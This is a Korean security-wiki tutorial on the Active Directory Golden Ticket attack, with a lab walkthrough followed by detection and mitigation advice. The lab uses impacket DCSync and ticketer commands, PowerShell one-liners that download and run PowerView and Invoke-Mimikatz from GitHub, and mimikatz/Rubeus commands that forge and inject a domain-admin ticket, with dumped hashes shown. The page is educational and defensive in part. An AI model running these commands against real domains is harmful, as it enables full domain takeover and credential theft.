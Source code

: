 # 골든 티켓 (Golden Ticket)

골든 티켓은 공격자가 임의로 높은 권한 유저의 TGT (Ticket Granting Ticket) 를 KDC를 통하지 않고 만들어내는 액티브 디렉토리 지속성 공격이다. 지속성 공격이기 때문에 도메인 어드민이나 KRBTGT 유저를 장악한 뒤 진행한다. 골든 티켓 공격의 개념을 이해하려면 커버로스 인증에 대해 알고 있어야한다 - 이에 관련해서는 이 [페이지에서 서술](../credential-access/kerberos/)한다.&#x20;

커버로스의 TGT는 TGS를 얻기 위해 필요하다. TGT는 커버로스의 인증 첫 2개 단계인 AS-REQ 와 AS-REP을 통해서 만들어진다.&#x20;

1. **AS-REQ:** 유저는 현재 타임스탬프를 자신의 비밀번호 NT 해시를 이용해 암호화한 뒤, 자신의 유저 이름과 함께 KDC에게 보낸다.&#x20;
2. **AS-REP:** KDC는 받은 요청을 갖고 NTDS.dit 파일에 있는 유저의 NT 해시로 요청을 복호화 시도한 뒤, 이것이 복호화가 되면 유저가 올바른 비밀번호를 갖고 있다고 판단, TGT를 발급해준다. 이때 이 TGT는 액티브 디렉토리와 커버로스의 기본 유저인 `KRBTGT` 라는 유저의 비밀번호 해시로 암호화 되어 있다.&#x20;
3. 유저는 이 TGT를 가지고 다른 서비스에 연결할 수 있는 나머지 커버로스 인증 4단계를 가지고 TGS를 발급 받아 사용한다.&#x20;

TGT를 KDC와의 `AS-REQ, AS-REP` 인증 통신 없이 스스로 만들 수 있을까? 놀랍게도 가능하다. 단, 도메인 어드민 급의 높은 권한을 갖고 있어야한다 (그래서 지속성 공격이다).&#x20;

1. 도메인 이름&#x20;
2. 도메인 SID&#x20;
3. KRBTGT의 비밀번호 NT 해시 (높은 권한 필요)&#x20;
4. TGT를 발급 받을 유저 이름&#x20;
5. TGT를 발급 받을 유저의 RID&#x20;
6. TGT를 발급 받을 유저의 그룹 리스트 (아무거나 써도 된다)&#x20;

도메인을 장악한 공격자는 이 6가지를 모두 구할 수 있다. 이제 공격자는 KDC를 거치지 않고 스스로 TGT를 만들어낼 수 있다. 공격자가 스스로 만들어낸 TGT는...&#x20;

1. 도메인 어드민의 최고 권한을 갖고 있고&#x20;
2. 모든 서비스와 호스트에 접근할 수 있으며&#x20;
3. 최고 10년동안 지속된다.&#x20;

공격자는 앞으로 10년 동안 도메인 내 존재하는 모든 호스트와 서비스에 접근할 수 있는 도메인 관리자 권한의 TGT를 만들어냈다. 이것이 바로 골든 티켓 공격이다.&#x20;

### 실습&#x20;

{% tabs %}
{% tab title="리눅스" %}
1. 도메인 SID를 알아낸다.&#x20;

```
└─# impacket-lookupsid choi.local/Administrator:'Password123!'@dc01.choi.local -domain-sids        
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation

[*] Brute forcing SIDs at dc01.choi.local
[*] StringBinding ncacn_np:dc01.choi.local[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-915960992-2308152741-2736258720
```



2\. DC Sync를 이용해 KRBTGT 유저의 NT 해시를 알아낸다. (NetBIOS 도메인 이름 규격 사용)

```
└─# impacket-secretsdump CHOI/Administrator:'Password123!'@dc01.choi.local -just-dc-user CHOI\\krbtgt      
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a8f31b642e60b362cc17588df4c5b1e2:::
```



3\. 알아낸 정보를 바탕으로 골든티켓을 생성한다. NT 해시는 KRBTGT의 것을 사용한다.&#x20;

```
└─# impacket-ticketer Administrator -domain choi.local -domain-sid S-1-5-21-915960992-2308152741-2736258720 -nthash a8f31b642e60b362cc17588df4c5b1e2
```



4\. 티켓을 로드한 후 사용한다.&#x20;

```
export KRB5CCNAME=/root/blog/Administrator.ccache

└─# impacket-secretsdump -k dc01.choi.local                                                                                                                                                            
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation
                                                                                                                                                                                                       
[*] Target system bootKey: 0x37b7fe1178c20af620c25feb531fbe0d                         
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::                                                                                                                 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
< ... >
```

&#x20;
{% endtab %}

{% tab title="윈도우" %}
윈도우에서는 powerview와 Invoke-mimikatz를 이용해서 진행한다.&#x20;

(0. AMSI 우회를 진행한다. )

1. Powerview를 이용해 도메인 SID를 알아낸다.&#x20;

```
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1')
Get-DomainSID -Domain choi.local

S-1-5-21-915960992-2308152741-2736258720
```



2\.  KRBTGT의 NT 해시를 알아낸다.&#x20;

```
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:choi.local /user:krbtgt@choi.local"'

< ... >
Credentials:
  Hash NTLM: a8f31b642e60b362cc17588df4c5b1e2
    ntlm- 0: a8f31b642e60b362cc17588df4c5b1e2
    lm  - 0: 246a4fe4221c6c2f69dddac89af411d1
```



3\. Domain SID 와 KRBTGT의 NT 해시를 가지고 골든 티켓을 만든 뒤,  Pass-the-Ticket 을 이용해 골든 티켓이 로드된 파워쉘 세션을 생성한다.&#x20;

```
Invoke-Mimikatz -Command '"kerberos::golden /admin:Administrator /domain:choi.local /id:500 /sid:S-1-5-21-915960992-2308152741-2736258720 /krbtgt:a8f31b642e60b362cc17588df4c5b1e2"'

Invoke-Mimikatz -Command '"kerberos::ptt <티켓-파일>"'
.\Rubeus.exe ptt /ticket:<티켓-파일>
```

이렇게 하면 현재 디렉토리에 `ticket.kirbi` 라는 골든티켓이 생성된다. 이를 mimikatz 나 Rubeus 등을 이용해 사용할 수 있다.&#x20;

번거롭게 파일로 저장하기 싫다면 Mimikatz를 이용해서 골든 티켓이 들어가 있는 새로운 파워쉘 세션을 만들 수도 있다. 이를 위해서 Pass-the-Ticket 플래그를 추가해준다.&#x20;

```
Invoke-Mimikatz -Command '"kerberos::golden /admin:Administrator /domain:choi.local /id:500 /sid:S-1-5-21-915960992-2308152741-2736258720 /krbtgt:a8f31b642e60b362cc17588df4c5b1e2 /ptt"'
Hostname: wkstn01.choi.local / S-1-5-21-915960992-2308152741-2736258720

< ... >
mimikatz(powershell) # kerberos::golden /admin:Administrator /domain:choi.local /id:500 /sid:S-1-5-21-915960992-2308152741-2736258720 /krbtgt:a8f31b642e60b362cc17588df4c5b1e2 /ptt
User      : Administrator
Domain    : choi.local (CHOI)
SID       : S-1-5-21-915960992-2308152741-2736258720
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: a8f31b642e60b362cc17588df4c5b1e2 - rc4_hmac_nt
Lifetime  : 7/3/2022 5:39:54 PM ; 6/30/2032 5:39:54 PM ; 6/30/2032 5:39:54 PM
-> Ticket : ** Pass The Ticket **

Golden ticket for 'Administrator @ choi.local' successfully submitted for current session
```

도메인 관리자인 Administrator의 TGT가 만들어졌고, 이는 "6/30/2032 5:39:54 PM" 까지 지속되는 10년짜리 골든 티켓이다. 이 TGT는 현재 파워쉘 세션에 로드되었다.&#x20;
{% endtab %}
{% endtabs %}



### 대응 방안&#x20;

* 이미 만들어진 골든 티켓은 도메인 내 KRBTGT 계정의 비밀번호가 2번 바뀌면 더 이상 사용할 수 없게 된다. 단, KRBTGT 계정의 비밀번호를 바꾸면 다른 서비스들도 재시작이 필요할 수도 있기 때문에 프로덕션에서 진행할 것이라면 비즈니스 시간이 아닌 시간에 업데이트 하는 것이 좋다. 또한, 2번 바꿀 때 어느정도 텀을 두고 바꾸는 것이 좋다. 곧바로 KRBTGT의 비밀번호를 두번 연달아 바꾸면 현존하는 세션, 티켓, 그리고 DC Sync 기능이 먹통이 될 수 있다.&#x20;

다음의 탐지 방안은 많은 숫자의 로그를 생성할 수 있으니 프로덕션에 적용하기 전 충분한 테스트를 거쳐야한다.&#x20;

* `Default Domain Controllers Policy/Computer Configuration/Policies/Windows Settings/Advanced Audit Policy Configuration/Account Logon/Audit Kerberos Authentication Service` 에서 Success 로깅 설정을 한다.&#x20;
  * 이벤트 ID - 4768 - Authentication Ticket was Requested 를 수집한다.&#x20;
* `Default Domain Controllers Policy/Computer Configuration/Policies/Windows Settings/Security Settings/Advanced Audit Policy Configuration/Audit Policies/Account Logon/Audit Kerberos Service Ticket Operations - Success`&#x20;
  * 이벤트 ID - 4769 - Kerberos Service Ticket was Granted 를 수집한다.&#x20;
* 만약 4768이 없는 4769 이벤트가 존재한다면, 알람을 울린다 - TGT 요청 없이 TGS 만 요청한 것이기 때문에 이미 골든 티켓을 공격자가 가지고 있다는 반증이 될 수 있다.&#x20;

골든 티켓 공격은 탐지하기 어렵기 때문에 최대한 KRBTGT 비밀번호를 바꾸며 피해를 최소화한다. 또한, 지속성 공격이기 때문에 애당초 도메인이 장악 당하지 않도록 다른 공격을 막는데 신경 쓰도록 한다.&#x20;



### 레퍼런스&#x20;

{% embed url="https://adsecurity.org/?p=483" %}

{% embed url="https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it" %}

{% embed url="https://adsecurity.org/?p=1515" %}

